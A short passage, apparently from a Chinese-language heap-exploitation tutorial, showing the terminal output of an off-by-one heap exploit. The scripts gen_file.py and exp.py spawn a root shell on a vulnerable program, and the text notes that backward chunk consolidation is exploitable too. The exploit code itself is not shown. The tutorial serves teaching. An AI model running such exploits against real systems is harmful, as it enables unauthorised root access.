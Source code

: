 执行上述利用代码会给我们 root shell。

```
$ python gen_file.py > inp_file
$ python exp.py 
Calling vulnerable program
sh-4.2# id
uid=0(root) gid=1000(sploitfun) groups=0(root),10(wheel),1000(sploitfun) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# exit
exit
$
```

我们的 off-by-one 漏洞代码会向前合并块，也可以向后合并。这种向后合并 off-by-one 漏洞代码也可以利用。